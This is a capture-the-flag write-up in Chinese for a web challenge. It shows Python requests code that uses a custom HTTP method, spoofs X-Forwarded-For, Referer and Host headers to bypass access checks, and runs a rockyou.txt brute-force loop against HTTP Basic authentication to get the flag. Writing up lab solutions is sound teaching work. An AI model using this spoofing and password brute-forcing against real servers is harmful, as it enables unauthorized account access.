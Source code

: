 # 01. Monster

![](../../docs/web/imgs/01_monster/01.png)

### Solution

#### Step 1: 先照著題目的提示，使用 `GIVEMEFLAG` method 進入

```py
url = 'http://140.115.59.7:12002/'

method = 'GIVEMEFLAG'

response = requests.request(
    method, 
    url,
    headers=headers
)

with open('index.html', 'w') as output_file:
    output_file.write(response.text)
```

當我們真的用了 `GIVEMEFLAG` 進入了，我們可以觀察網頁的 source code `<h1>` tag 的內容換成了 `Your IP must be 127.0.0.1.`。

![](./../../docs/web/imgs/01_monster/02.png)

#### Step 2: 透過 `X-Forwarded-For` header 來滿足題目的 `IP` 要求

接著我們照著指示要把 `IP` 變成 `127.0.0.1.` 但是我們沒辦法直接透過 `Host` header 來改變 `IP`，因為會被擋掉，因此我們需要透過 `X-Forwarded-For` header 來改變 `IP`。

```py

```py
url = 'http://140.115.59.7:12002/'

method = 'GIVEMEFLAG'

headers = {
    "Host": "140.115.59.7:12002",
    "Referer": "http://140.115.59.7:12002/",
    "X-Forwarded-For": "127.0.0.1"  # Step 2
}

response = requests.request(
    method, 
    url,
    headers=headers
)

with open('index.html', 'w') as output_file:
    output_file.write(response.text)
```

當我們真的用了 `X-Forwarded-For` header 來改變 `IP` 為 `127.0.0.1.` 後，我們可以觀察網頁的 source code `<h1>` tag 的內容換成了 `You must come from https://www.adlSecurity.com.`。

![](./../../docs/web/imgs/01_monster/03.png)

#### Step 3: 透過 `Referer` header 來滿足題目的 `Referer` 要求

接著我們照著指示要把 `Referer` 變成 `https://www.adlSecurity.com.` 但是我們沒辦法直接透過 `Host` header 來改變 `Referer`，因為會被擋掉，因此我們需要透過 `Referer` header 來改變 `Referer`。

```py
url = 'http://140.115.59.7:12002/'

method = 'GIVEMEFLAG'

headers = {
    "Host": "140.115.59.7:12002",
    "Referer": "https://www.adlSecurity.com", # Step 3
    "X-Forwarded-For": "127.0.0.1"  # Step 2
}

response = requests.request(
    method, 
    url,
    headers=headers
)

with open('index3.html', 'w') as output_file:
    output_file.write(response.text)
```

![](./../../docs/web/imgs/01_monster/04.png)

接著我們保持上面的要求設定：使用 `GIVEMEFLAG` method， `x-forwarded-for` 保持 `127.0.0.1.` 和 `referer`，並且把 `host` 改成 `www.adlSecurity.com`，就可以進到 `admin/`。

![](./../../docs/web/imgs/01_monster/05.png)

### Step 4: 找出帳號密碼

我們可以根據提示 `Now, you must loginhitori & 🤘rockyou!!!` 來找出帳號密碼，因此我們可以使用 [`rockyou.txt`](https://github.com/praetorian-inc/Hob0Rules/blob/master/wordlists/rockyou.txt.gz) 來爆破帳號密碼。

```py
from base64 import b64encode
import requests
from bs4 import BeautifulSoup
from requests.exceptions import ReadTimeout, ConnectTimeout

method = "GIVEMEFLAG"
login_url = 'http://140.115.59.7:12002/admin'
login_headers = {
    "Host": "140.115.59.7:12002",
    "Referer": "https://www.adlSecurity.com", # Step 3
    "X-Forwarded-For": "127.0.0.1",  # Step 2
    "Authorization": None,
}


def set_login(username, password):
    authorization = b64encode(f"{username}:{password}".encode('utf-8')).decode('ascii')
    login_headers["Authorization"] = f"Basic {authorization}"

count = 0
with open('rockyou.txt', 'r', encoding='latin-1') as rockyou:
    for line in rockyou:

        count += 1
        line = line.strip()
        print(f"try {count} password: {line}")
        set_login("hitori", line)
        while True:
            try:
                response = requests.request(
                    method=method, 
                    url=login_url, 
                    headers=login_headers, 
                    timeout=1
                )
                break
            except ReadTimeout:
                print("read timeout, retry")
            except ConnectTimeout:
                print("connect timeout, retry")
        
        if response.status_code == 200:
            print(f"found password!: {line}")
            soup = BeautifulSoup(response.text, 'html.parser')
            tag_content = soup.find('code').text.strip()
            print("Content within <code> tags:")
            print(tag_content)  # flag is here!!!
            break
```

最後我們利用上面找到的帳號密碼來登入，並且使用 `GIVEMEFLAG` method ， `x-forwarded-for` 保持 `127.0.0.1.` 和 `referer`，並且把 `host` 改成 `www.adlSecurity.com`，再加上最後爆破出來的密碼，就可以拿到 flag。

**這樣就拿到 flag 了！！！**

![](./../../docs/web/imgs/01_monster/06.png)